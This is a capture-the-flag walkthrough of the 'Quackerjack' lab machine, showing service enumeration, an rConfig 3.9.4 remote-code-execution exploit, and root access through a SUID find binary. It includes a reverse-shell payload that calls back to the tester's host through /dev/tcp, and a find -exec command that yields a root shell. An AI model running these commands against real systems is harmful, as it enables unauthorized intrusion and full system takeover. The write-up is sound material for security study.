



Writeup by wook413

[TOC]

# Recon

## Nmap

As usual, I started by performing three Nmap scans on this machine. First, a full port scan to identify all open ports; second, a service version detection and default script scan on the discovered ports; and finally, a scan of the top 10 UDP ports.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-  
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-04 02:48 UTC
Nmap scan report for 192.168.107.57
Host is up (0.049s latency).
Not shown: 65527 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8081/tcp open  blackice-icecap

Nmap done: 1 IP address (1 host up) scanned in 43.92 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 21,22,80,111,139,445,3306,8081                    
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-04 02:51 UTC
Nmap scan report for 192.168.107.57
Host is up (0.050s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.229
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:ec:75:8d:86:9b:a3:0b:d3:b6:2f:64:04:f9:fd:25 (RSA)
|   256 b6:d2:fd:bb:08:9a:35:02:7b:33:e3:72:5d:dc:64:82 (ECDSA)
|_  256 08:95:d6:60:52:17:3d:03:e4:7d:90:fd:b2:ed:44:86 (ED25519)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: Apache HTTP Server Test Page powered by CentOS
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB 10.3.23 or earlier (unauthorized)
8081/tcp open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: 400 Bad Request
Service Info: Host: QUACKERJACK; OS: Unix

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: quackerjack
|   NetBIOS computer name: QUACKERJACK\\x00
|   Domain name: \\x00
|   FQDN: quackerjack
|_  System time: 2026-02-03T21:51:36-05:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-02-04T02:51:34
|_  start_date: N/A
|_clock-skew: mean: 1h40m06s, deviation: 2h53m23s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 67.91 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10                       
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-04 02:53 UTC
Nmap scan report for 192.168.107.57
Host is up (0.048s latency).

PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   open|filtered dhcps
123/udp  open|filtered ntp
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open|filtered snmp
445/udp  open|filtered microsoft-ds
631/udp  open|filtered ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 1.84 seconds
```

# Initial Access

## FTP 21

The FTP server allowed anonymous login, but it hung at ‘Entering Extended Passive mode’.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp $IP        
Connected to 192.168.107.57.
220 (vsFTPd 3.0.2)
Name (192.168.107.57:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||23990|).
```

## SMB 139 445

Nmap `smb-enum-shares` scripts revealed the existence of `IPC$` and `print$` shares, and that anonymous access has **READ** and **WRITE** permissions on `IPC$` .

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=smb-enum-shares,smb-enum-users,vuln -p 139,445
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-04 03:04 UTC
Nmap scan report for 192.168.107.57
Host is up (0.049s latency).

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
Service Info: Host: QUACKERJACK

Host script results:
|_smb-vuln-ms10-061: false
|_smb-vuln-ms10-054: false
| smb-enum-shares: 
|   account_used: <blank>
|   \\\\192.168.107.57\\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Samba 4.10.4)
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\\tmp
|     Anonymous access: READ/WRITE
|   \\\\192.168.107.57\\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\\var\\lib\\samba\\drivers
|_    Anonymous access: <none>
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_          

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 74.44 seconds
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP                                                     
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.10.4)
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        SAMBA  
```

I tried connecting to both shares using `smbclient`, but I was unable to connect to the `print$` share and the `IPC$` share was empty.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient //$IP/print$                                                    
Password for [WORKGROUP\\kali]:
Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED
```

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient //$IP/IPC$ 
Password for [WORKGROUP\\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \\> ls
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \\*
```

## RPC 111

I also tried a Null Session with `rpcclient` , but it failed.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rpcclient -U "" -N $IP
rpcclient $> 
```

## HTTP 80

Whenever I see HTTP services running, I run Nmap `http-enum` scripts first for quick wins, but this time it didn’t yield much information.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP --script=http-enum -sV -p 80,8081  
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-04 03:03 UTC
Stats: 0:00:49 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.91% done; ETC: 03:04 (0:00:00 remaining)
Nmap scan report for 192.168.107.57
Host is up (0.048s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
| http-enum: 
|_  /icons/: Potentially interesting folder w/ directory listing
8081/tcp open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 231.21 seconds
```

The page on port 80 was just a test page, and directory brute forcing didn’t reveal any useful information either.



```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt                                         
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://192.168.107.57>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 211]
/.htaccess            (Status: 403) [Size: 211]
/.hta                 (Status: 403) [Size: 206]
/cgi-bin/             (Status: 403) [Size: 210]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

## HTTPS 8081

Moving on to port 8081, HTTPS is required.



The service on port 8081 is actually `rConfig v3.9.4`



Looking up the service version on `Searchsploit`  revealed RCE vulnerabilities.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit rconfig 3.9.4
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
rConfig 3.9 - 'searchColumn' SQL Injection                                                              | php/webapps/48208.py
rConfig 3.9.4 - 'search.crud.php' Remote Command Injection                                              | php/webapps/48241.py
rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote Code Execution                                | php/webapps/48261.py
Rconfig 3.x - Chained Remote Code Execution (Metasploit)                                                | linux/remote/48223.rb
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I modified the code, executed it and successfully obtained a reverse shell as `apache` user.

```bash
┌──(venv)─(kali㉿kali)-[~/Desktop]
└─$ python3 48878.py
Connecting to: <https://192.168.107.57:8081/>
Connect back is set to: sh -i >& /dev/tcp/192.168.45.229/8081 0>&1, please launch 'nc -lv 9001'
Version is rConfig Version 3.9.4 it may not be vulnerable
Remote Code Execution + Auth bypass rConfig 3.9.5 by Daniel Monzón
In the last stage if your payload is a reverse shell, the exploit may not launch the success message, but check your netcat ;)
Note: preferred method for auth bypass is 1, because it is less 'invasive'
Note2: preferred method for RCE is 2, as it does not need you to know if, for example, netcat has been installed in the target machine
Choose method for authentication bypass:
        1) User creation
        2) User enumeration + User edit 
Method>1
(+) User test created
Choose method for RCE:
        1) Unsafe call to exec()
        2) Template edit 
Method>1
(+) Log in as test completed
```

# Shell as `apache`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 8081
[+] Listening for reverse shells on 0.0.0.0:8081 →  127.0.0.1 • 192.168.136.128 • 172.20.0.1 • 172.17.0.1 • 192.168.45.229
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from quackerjack~192.168.107.57-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/quackerjack~192.168.107.57-Linux-x86_64/2026_02_04-04_18_31-197.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
bash-4.2$ whoami
apache
bash-4.2$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.2$ 
```

```bash
bash-4.2$ cd /home
bash-4.2$ ls -la
total 4
drwxr-xr-x.  3 root   root   21 Jun 22  2020 .
dr-xr-xr-x. 17 root   root  244 Jun 25  2020 ..
drwxr-xr-x. 15 apache root 4096 Jul  9  2020 rconfig

bash-4.2$ cd rconfig
bash-4.2$ ls -la
total 68
drwxr-xr-x. 15 apache root  4096 Jul  9  2020 .
drwxr-xr-x.  3 root   root    21 Jun 22  2020 ..
-rw-r--r--.  1 apache root   109 Feb 25  2020 .gitignore
-rw-r--r--.  1 apache root 35122 Feb 25  2020 LICENSE
-rw-r--r--.  1 apache root  2405 Feb 25  2020 README.md
drwxr-xr-x.  3 apache root    39 Feb 25  2020 backups
drwxr-xr-x.  4 apache root  4096 Feb 25  2020 classes
-rw-r--r--.  1 apache root    65 Feb 25  2020 composer.json
-rw-r--r--.  1 apache root  4040 Feb 25  2020 composer.lock
drwxr-xr-x.  2 apache root    71 Jun 22  2020 config
drwxr-xr-x.  2 apache root    24 Feb 25  2020 cronfeed
drwxr-xr-x.  2 apache root    24 Feb 25  2020 data
drwxr-xr-x.  2 apache root   230 Feb 25  2020 lib
-rw-r--r--   1 apache root    33 Feb  3 21:48 local.txt
drwxr-xr-x.  6 apache root   180 Feb  3 23:03 logs
drwxr-xr-x.  6 apache root   106 Feb 25  2020 reports
drwxr-xr-x.  3 apache root   150 Feb 25  2020 templates
drwxr-xr-x.  2 apache root     6 Jun 22  2020 tmp
drwxr-xr-x.  2 apache root    27 Feb 25  2020 updates
drwxr-xr-x.  4 apache root    59 Feb 25  2020 vendor
drwxr-xr-x.  8 apache root  4096 Feb  3 23:03 www
```

Found `local.txt`

```bash
bash-4.2$ cat local.txt
066...
```

# Privilege Escalation

```bash
bash-4.2$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
```

During manual enumeration, I found that the `find` binary has the SUID bit set, which is very unusual. I referred to `GTFOBins` to exploit it and successfully gained a **`root`** shell.

```bash
bash-4.2$ find / -type f -perm -4000 -ls 2>/dev/null
12596477  196 -rwsr-xr-x   1 root     root       199304 Oct 30  2018 /usr/bin/find
12845841   76 -rwsr-xr-x   1 root     root        73888 Aug  8  2019 /usr/bin/chage
12845842   80 -rwsr-xr-x   1 root     root        78408 Aug  8  2019 /usr/bin/gpasswd
12897242   24 -rws--x--x   1 root     root        23968 Apr  1  2020 /usr/bin/chfn
12897245   24 -rws--x--x   1 root     root        23880 Apr  1  2020 /usr/bin/chsh
12845845   44 -rwsr-xr-x   1 root     root        41936 Aug  8  2019 /usr/bin/newgrp
12897294   32 -rwsr-xr-x   1 root     root        32128 Apr  1  2020 /usr/bin/su
13284201  144 ---s--x--x   1 root     root       147336 Apr  1  2020 /usr/bin/sudo
12897278   44 -rwsr-xr-x   1 root     root        44264 Apr  1  2020 /usr/bin/mount
12897298   32 -rwsr-xr-x   1 root     root        31984 Apr  1  2020 /usr/bin/umount
12982629   60 -rwsr-xr-x   1 root     root        57656 Aug  8  2019 /usr/bin/crontab
12944638   24 -rwsr-xr-x   1 root     root        23576 Apr  1  2020 /usr/bin/pkexec
12862194   28 -rwsr-xr-x   1 root     root        27856 Mar 31  2020 /usr/bin/passwd
13299021   32 -rwsr-xr-x   1 root     root        32096 Oct 30  2018 /usr/bin/fusermount
354814   36 -rwsr-xr-x   1 root     root        36272 Apr  1  2020 /usr/sbin/unix_chkpwd
354810   12 -rwsr-xr-x   1 root     root        11232 Apr  1  2020 /usr/sbin/pam_timestamp_check
433482   12 -rwsr-xr-x   1 root     root        11296 Mar 31  2020 /usr/sbin/usernetctl
4529180   16 -rwsr-xr-x   1 root     root        15432 Apr  1  2020 /usr/lib/polkit-1/polkit-agent-helper-1
4528919   60 -rwsr-x---   1 root     dbus        58024 Mar 14  2019 /usr/libexec/dbus-1/dbus-daemon-launch-helper
sh-4.2$ find . -exec /bin/sh -p \\; -quit
sh-4.2# whoami
root
```

Found `proof.txt`

```bash
sh-4.2# cat proof.txt 
bd4...
```